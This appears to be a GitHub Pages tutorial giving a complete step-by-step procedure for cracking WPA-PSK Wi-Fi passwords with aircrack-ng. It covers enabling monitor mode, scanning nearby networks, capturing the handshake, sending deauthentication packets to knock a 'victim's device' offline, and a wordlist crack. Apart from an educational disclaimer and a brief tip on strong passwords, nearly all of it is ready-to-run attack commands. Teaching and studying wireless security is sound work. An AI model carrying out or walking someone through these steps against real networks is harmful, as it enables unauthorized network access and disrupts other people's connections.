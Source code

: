 ```yaml
---
title: WPA-PSK Hacking Guide
layout: default
nav_order: 5
---
```


{: .warning-title }
Although these networks are susceptible to hacking, it is crucial to emphasize that this guide is strictly for educational purposes. Engaging in these activities on networks without proper authorization is illegal. This is for educational purposes only. Having addressed this disclaimer, let's explore the underlying mechanisms, the practical execution, and measures to safeguard yourself against such vulnerabilities.

# **WPA-PSK HACKING GUIDE**

When you enable Wi-Fi in public places, you'll encounter numerous networks that likely utilize `WPA-PSK` (Wi-Fi Protected Access Pre-Shared Key) encryption, which is commonly used in wireless networks to secure data transmission. While it offers a level of security, there are vulnerabilities to consider. This guide will explore one of the most common methods of hacking WPA-PSK networks for educational purposes only.
 

## **Introduction**

When you connect to a network from a wireless device, a `handshake` is sent from the device to the router. This handshake contains the encrypted password.

While it's not possible to reverse the encrypted password, you can use a technique called a word list attack. A word list is a huge text file containing thousands of passwords. By comparing the encrypted handshake password with the passwords in the word list, you can determine the real password.

## **Requirements**

- Computer running `Linux` distribution;
- Computer with a network card that supports `monitor mode`;
- Install the package `Aircrack-ng` with the command `sudo apt install aircrack-ng`;

## **Procedure**

### 1 - Determine the Network Interface

<div class="code-example" markdown="1">
Identify the wireless network interfaces, which usually start with w (e.g., `wlp3s0`).
<br>This information will be needed later.
</div>
```bash
ip a
```

{: .important-title }
The "ip a" command in Linux displays network interface information, including IP addresses, MAC addresses, and related configurations. It is used for troubleshooting and network configuration purposes.

### 2 - Enable Monitor Mode

<div class="code-example" markdown="1">
Use the `airmon-ng` tool to switch your network card to monitor mode.
<br>It will break your internet connection temporarily.
</div>
```bash
airmon-ng start <wireless interface>
```

### 3 - Verify Monitor Mode

<div class="code-example" markdown="1">
Now, the wireless interface should be displayed as `<interface>mon` (e.g., `wlp3s0mon`).
<br>Run the command and It should appear `Mode: Monitor`.
</div>
```bash
iwconfig
```

{: .important-title }
If the wireless interface doesn't appear, it means your network card doesn't support monitor mode, and you'll need the external network card mentioned earlier.

### 4 - Scan for Networks

<div class="code-example" markdown="1">
Use `airodump-ng` to view the networks around you.
<br>This command will display a list of nearby networks along with their `BSSIDs` (network MAC addresses) and `channels`.
</div>
```bash
airodump-ng <wireless interface>mon
```

### 5 - Target Network

Identify the `BSSID` and `channel` of the network you wish to attack.

### 6 - Capture the Handshake
This command will show all the devices currently connected to that network.
<br>If you watch a video in one of this devices, the amount of packets (frames) being set to a device increses a lot. 
<br>In a new terminal window, enter the command:

```
airodump-ng -d(--bssid) <BSSID> -w(--write) <filename> -c(--channel) <channel>  <wireless interface>mon
```
- `<BSSID>` - target network's BSSID;
- `<channel>` - target network's channel;
- `<filename>` - desired name for the captured handshake file;
- `<wireless interface>mon` - name of your wireless interface in monitor mode;

### 7 - Deauthentication Attack
Now we need to to send deauthentication packets to the victim's device, forcing it to disconnect and reconnect to the network so we can capture the handshake.
<br>Leave the previous terminal open and running.
<br>Use this command in another terminal:

```
aireplay-ng -0 10 -a <BSSID> -c <client ESSID> <wireless interface>mon
```
- `-0 10` - deauthentication and we gonna send 10 packets;
- `-a <BSSID>` - target network's BSSID;
- `-c <client ESSID>` - ESSID (name) of the device you want to deauthenticate (e.g., the victim's device);
- `<wireless interface>mon` - name of your wireless interface in monitor mode;

### 8 - Capture the Handshake
Observe the terminal running `airodump-ng` (step 6) and wait for a device to reconnect.
<br>Once the handshake is captured, you can see a message saying `WPA handshake: <BSSID>`.
<br>You can stop `airodump-ng` by pressing `Ctrl+C`.
<br>The captured handshake will be saved in the specified filename.

### 9 - Word List Attack
Kali Linux comes with pre-installed word lists located in the directory `/usr/share/wordlists`.
<br>If you are not on Kali, you can download a word list from here.
<br>Now let's attempt to match the captured handshake with passwords from the word list.
<br>Use the command:

```
aircrack-ng -w <wordlist> <filename>
```

- `<wordlist>` - path to the desired word list file (e.g., /usr/share/wordlists/rockyou.txt);
- `<filename>` - name of the captured handshake file;

### 10 - Cracked!
Note: After performing these steps, your internet connection may still be interrupted. To fix this, you can either restart your computer or execute the command airmon-ng stop <monitor interface> followed by systemctl restart network* to restart the network services.

## Protecting Yourself
While you cannot prevent the authentication process, you can protect against word list attacks by choosing a long and random password that is unlikely to be found in any word list.

## Conclusion
In this guide, we explored the process of Wi-Fi network hacking for educational purposes only. It is essential to respect privacy and legality when using these techniques. We discussed capturing handshakes, performing de-authentication attacks, and cracking passwords using word lists. Remember to always use this knowledge responsibly and protect yourself by setting strong passwords for your Wi-Fi networks.

If you found this guide helpful, feel free to leave a star, and thank you for reading!
